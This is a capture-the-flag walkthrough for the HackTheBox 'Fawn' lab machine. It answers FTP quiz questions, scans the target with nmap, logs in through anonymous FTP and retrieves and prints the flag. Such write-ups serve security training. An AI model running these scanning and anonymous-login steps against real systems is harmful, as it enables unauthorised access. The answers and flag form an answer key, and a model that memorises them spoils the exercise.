

## Intro
This is another Very Easy machine from the Starting Point section on HackTheBox. As is typical, besides just getting the root flag, we will need to answer some questions.

## Tasks

### Task 1: What does the 3-letter acronym FTP stand for?
```
File Transfer Protocol
```

### Task 2: What communication model does FTP use, architecturally speaking?
Here's what the FTP architecture looks like (at a high level).



Thus, our answer would be:
```
Client-Server model
```

### Task 3: What is the name of one popular GUI FTP program?
```
Filezilla
```

### Task 4: Which port is the FTP service active on usually?
```
21 TCP
```

### Task 5: What acronym is used for the secure version of FTP?
`Secure File Transfer Protocol`
```
SFTP
```

### Task 6: What is the command we can use to test our connection to the target?
```
ping
```

Let's test out the connection:
```bash
weaponizedpeach@Akatosh:~$ ping 10.129.226.127
PING 10.129.226.127 (10.129.226.127) 56(84) bytes of data.
64 bytes from 10.129.226.127: icmp_seq=1 ttl=63 time=48.9 ms
64 bytes from 10.129.226.127: icmp_seq=2 ttl=63 time=48.7 ms
64 bytes from 10.129.226.127: icmp_seq=3 ttl=63 time=48.6 ms
^C
--- 10.129.226.127 ping statistics ---
3 packets transmitted, 3 received, 0% packet loss, time 2004ms
rtt min/avg/max/mdev = 48.627/48.742/48.871/0.100 ms
weaponizedpeach@Akatosh:~$
```

### Task 7: From your scans, what version is FTP running on the target?
Let's run an nmap scan:

```bash
weaponizedpeach@Akatosh:~$ nmap 10.129.226.127
Starting Nmap 7.80 ( https://nmap.org ) at 2022-02-19 22:27 EET
Nmap scan report for 10.129.226.127
Host is up (0.048s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE
21/tcp open  ftp

Nmap done: 1 IP address (1 host up) scanned in 1.91 seconds
weaponizedpeach@Akatosh:~$
```

Here we can see an open FTP port on 21 TCP. However, this is not enough, we also need to get the specific version of FTP used. Let's run nmap again, this time with service and version detection (`-sV`) enabled.

```bash
weaponizedpeach@Akatosh:~$ nmap -sV 10.129.226.127
Starting Nmap 7.80 ( https://nmap.org ) at 2022-02-19 22:31 EET
Nmap scan report for 10.129.226.127
Host is up (0.049s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
Service Info: OS: Unix

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 2.55 seconds
weaponizedpeach@Akatosh:~$
```

This time we got some additional information. Thus, the answer is:
```
vsftpd 3.0.3
```

### Task 8: From your scans, what OS type is running on the target?
We can use the nmap output from the previous task to identify the answer to this one as well.
```
Unix
```

### Submit root flag
Given the fact that the box is oriented towards FTP and there is only a single open port - an FTP service, let's try to connect to it and see what happens.

```bash
weaponizedpeach@Akatosh:~$ ftp 10.129.226.127
Connected to 10.129.226.127.
220 (vsFTPd 3.0.3)
Name (10.129.226.127:weaponizedpeach):
```

We are being asked for a username. Some FTP servers allow anonymous access, maybe this is one of them, let's give it a try, if so, the password is likely blank:
```bash
Name (10.129.226.127:weaponizedpeach): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp>
```

We're in. Let's snoop around and try to snag the flag.

```bash
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r--    1 0        0              32 Jun 04  2021 flag.txt
226 Directory send OK.
ftp> get flag.txt
local: flag.txt remote: flag.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for flag.txt (32 bytes).
226 Transfer complete.
32 bytes received in 0.00 secs (34.7996 kB/s)
ftp> exit
221 Goodbye.
weaponizedpeach@Akatosh:~$ ls
OpenVPN  flag.txt
weaponizedpeach@Akatosh:~$ cat flag.txt
035db21c881520061c53e0536e44f815
weaponizedpeach@Akatosh:~$
```

As usual, we need to provide the flag itself in the format of HTB{\_flag\_}:
```
HTB{035db21c881520061c53e0536e44f815}
```

And that's it for Fawn!